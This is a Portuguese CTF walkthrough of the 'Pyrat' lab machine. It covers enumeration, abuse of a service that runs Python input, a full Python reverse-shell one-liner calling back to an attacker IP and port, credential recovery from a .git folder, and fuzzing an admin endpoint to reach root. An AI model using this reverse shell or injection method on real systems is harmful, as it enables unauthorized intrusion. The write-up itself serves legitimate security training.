 # _**Pyrat CTF**_
![](pirat.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p- --open -A [ip_address]
> ```
![](scan_nmap.png)

Visitando o site, somos recebidos com a mensagem: _Try a more basic connection!_  
Pensando, foi testado para ver as requisições e retornos via <mark>Burpsuite</mark>, mas nada  
Então, tentamos uma conexão via _netcat_ e uma requisição GET, mas GET não é interpretado  
Lembrando da dica, tentamos ```print("PennTest GPT was here")``` e temos retorno  
![](python_return.jpg)

Vamos testar mais alguns comandos como:
* import os; print(os.listdir("/"))
* import os; print(os.getlogin())

Aparentemente, estamos executando como _root_ e podemos listar diretórios  
Tentando verificar o usuário de _/home_, não temos permissão de acesso  
Vamos criar uma conexão shell reversa com o comando abaixo
> ```bash
> import socket,subprocess,os;s=socket.socket();s.connect(("[ip_address]",[port]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")
> ```
![](reverse_shell.jpg)

Apesar desta reverse shell, ainda não temos permissão  
Vamos investigar os outros diretórios  
Procurando por pistas em _/tmp_, não temos nada  
Investigando em _/opt/dev_, temos um diretório com nome _.git_  
Procurando pelos arquivos, encontramos uma informação importante!  

![](passwd.jpg)

Vamos tentar uma conexão SSH  
Conseguimos!

## _**Escalando privilégios**_
Para esta parte, precisei buscar ajuda  
Primeiro, vamos retornar para _/opt/dev_ e vamos digitar ```git show```  

![](git_show.jpg)

Temos o que parece ser o código de conexão na porta 8000, uma _hash_ (sha-1) e algumas outras informações  
Além disso, vemos que ele está solicitando alguns dados específicos == 'algum endpoint'  
Em seguida, verifica se você fornece credenciais de administrador e, caso contrário, o shell é www-data  
Procurei um script para poder realizar _fuzzing_ na porta: [link do código](https://github.com/twhelan25/tryhackme-Pyratt-Writeup)  

![](python_fuzz.jpg)

É requisitado uma senha  
Novamente, executamos o segundo _script_ para obtermos a senha de _admin_  
Obtemos a senah rapidamente  
Agora podemos usar o _endpoint_ de administrador e a senha para obter um shell root  
Realizamos uma nova conexão ```netcat``` e digitamos ```admin```e a senha descoberta  
Após login, basta ir atrás das flags!  

![](root_login.jpg)
